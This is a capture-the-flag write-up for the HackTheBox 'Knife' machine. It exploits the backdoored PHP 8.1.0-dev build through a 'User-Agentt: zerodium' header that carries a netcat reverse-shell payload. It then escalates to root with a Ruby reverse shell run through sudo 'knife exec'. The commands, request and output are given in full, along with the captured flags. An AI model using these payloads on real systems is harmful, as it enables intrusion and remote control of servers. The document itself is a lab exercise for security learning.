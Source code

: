 # Knife - HackTheBox
Linux, 20 Base Points, Easy

## Machine

![‏‏Knife.JPG](images/Knife.JPG)
 
## Knife Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Knife]
└──╼ $ nmap -sC -sV -oA nmap/Knife 10.10.10.242
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-22 22:16 IDT
Nmap scan report for 10.10.10.242
Host is up (0.097s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.06 seconds
```

By observing port 80 [http://10.10.10.242](10.10.10.242) we can see the following web page:

![port80.JPG](images/port80.JPG)

By intercepting the request using [BurpSuite](https://portswigger.net/burp) we can see the following response header (```X-Powered-By: PHP/8.1.0-dev```):
![header.JPG](images/header.JPG)

According to ```X-Powered-By: PHP/8.1.0-dev``` HTTP response header we can see ```dev``` which is a branch of ```PHP/8.1.0```.

We know about [phps-git-server-hacked-to-insert-secret](https://thehackernews.com/2021/03/phps-git-server-hacked-to-insert-secret.html), basically, PHP's Git Server Hacked to Insert Secret Backdoor to Its Source code.

According to the article, PHP developer Jake Birchall said: *"PHP code from within the ```User-Agent``` HTTP header ("HTTP_USER_AGENTT"), if the string starts with ```'zerodium'```"*.

By sending HTTP request with ```User-Agentt: zerodiumphpinfo();``` header we get the following response:
```
HTTP/1.1 200 OK
Date: Sat, 22 May 2021 21:39:17 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Content-Length: 79254
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
pre {margin: 0; font-family: monospace;}
a:link {color: #009;
...
```


Let's use ```User-Agentt``` header to get a reverse shell:
```
GET / HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4242 >/tmp/f');
Content-Length: 0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

And we get a reverse shell as ```james``` user:
```console
┌─[evyatar@parrot]─[/hackthebox/Knife]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
10.10.10.242: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.242] 56646
/bin/sh: 0: can't access tty; job control turned off
$ cat /home/james/user.txt
699a31713fe58b945d2f98b12884d3e8

```

Like that, we get the user flag ```699a31713fe58b945d2f98b12884d3e8```.

### Root

By running the command ```sudo -l``` we get:
```console
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
$ 

```

We can see we can run ```/usr/bin/knife``` as root.

By reading about [knife exec](https://docs.chef.io/workstation/knife_exec/) we know that we can run ```ruby```  script using ```knife exec```, Let's create the following ```ruby``` script to get a reverse shell (```/tmp/shell.rb```):
```ruby
exit if fork;c=TCPSocket.new("10.10.14.23","4243");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}
```

Run it:
```console
$ sudo knife exec /tmp/test.rb
```

We get a reverse shell as ```root```:
```console
┌─[evyatar@parrot]─[/hackthebox/Knife]
└──╼ $ nc -lvp 4243
listening on [any] 4243 ...
10.10.10.242: inverse host lookup failed: Unknown host
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.242] 47266
whoami
root
cat /root/root.txt
df9ae6a1e02bed5f931384556dda1c4b

```

And we get the root flag ```df9ae6a1e02bed5f931384556dda1c4b```.

